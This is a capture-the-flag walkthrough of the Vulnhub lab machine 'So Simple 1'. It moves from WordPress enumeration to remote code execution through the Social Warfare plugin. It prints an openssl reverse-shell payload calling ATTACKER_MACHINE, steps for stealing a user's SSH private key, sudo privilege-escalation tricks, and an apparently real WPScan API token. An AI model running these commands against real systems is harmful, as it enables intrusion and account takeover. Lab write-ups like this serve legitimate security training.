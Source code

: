 # So Simple 1

---

Machine by [@roelvb79](https://twitter.com/roelvb79)

Vulnhub [link](https://www.vulnhub.com/entry/so-simple-1,515/)

Objectives:

  * 2 user flags
  * 1 root flag

---

## Network scan


  
1. Use nmap to scan the network

    We'll use an intense scan on the network as it's quite small (virtualbox host only), we can see web and ssh services running, but no aparent vulnerabilities yet.

    ![victim machine nmap scan result](img/1-nmap.png)
   
<br>

2. Visit the website

    If we visit the website we can see that there is only a big red image with the words "SO SIMPLE":
   
    ![website](img/2-website.png)

    And the website code doesn't reveal anything that's useful:

    ![website origin code](img/3-website_origin.png)

<br>

3. Attempt an ssh login

   Attempting to login with ssh shows it only accepts key authentication, thus ruling out ssh brute force with common passwords, if we want a way in we'll need an alternative

  ![attempt at logging into the machine with ssh](img/4-sshatt.png)

<br>

4. We'll run drib

    As there is no vulnerability that we can see in plain sight, dirb, will show us what are some sub-directories, and we can see that wordpress is installed:
  
    ![dirb website results](img/5-dirb.png)

5. Use WPScan

   As we saw on the las step wordpress is installed, WPScan will show, the wordpress, plugins and themes versions, as well as vulnerabilities associated with them

<br>

---

---

 



5- create a wpscan account and get api key

6- run "sudo wpscan --api-token BxwwzQ5nrvb34sz235LeWNQQplA4vqr7VBu9WEylbrQ --url http://192.168.56.111/wordpress/ -e" to get information of the wordpress sitem, we know that Social Warfare is installed and on version 3.5.0 is installed and the users "admin" and "max" are created.

7- search for vulnerabilities of social warfare and we find a remote execution vulnerability: "https://wpscan.com/vulnerability/7b412469-cc03-4899-b397-38580ced5618/".

8- spin up an apache install, it will contain our payload called "payload.txt" and contain "<pre>system('mkfifo /tmp/s; /bin/bash -i < /tmp/s 2>&1 | openssl s_client -quiet -connect ATTACKER_MACHINE:4242 > /tmp/s; rm /tmp/s')</pre>", this will create a connection to our attacker machine on port 4242. (reverse shell command from https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#openssl)
9- Start nc with the next options "ncat --ssl -vv -l -p 4242", we will get a reverse shell connection
10- navigate to the max user .ssh folder and get the id_rsa key, we will copy the contents and create a file on our attack machine, we'll call it "key", paste the private key into it, and chmod 600 said file.
11- add the private key with "ssh-add key"
12- ssh into the machine as max with "ssh max@192.168.56.111"
13- once in we can cat the file user.txt and get the first flag
14- using "sudo -l" we'll know what the user has acces to use as root without asking a password, this will return that the user can use /usr/sbin/service.
15- we will use "sudo -u steven /usr/sbin/service ../../bin/bash" this will change to the user steven with the permissions of max /usr/sbin/service and will make sure that we acces the user with /bin/bash as the interpreter.
16- repeat "sudo -l" for user steven, will return a "/opt/tools/server-health.sh" file (non existant), we'll create the folder tools and file server-health.sh. this file will contain: 
#!/bin/bash

bash
17- then we will "chmod +x /opt/tools/server-health.sh"
18- we can use "sudo -u root /opt/tools/server-health.sh" to get root access to the machine.
19- copy the root's ssh private key for direct root access to the machine, and get the flag from inside the root's home folder
WpScan
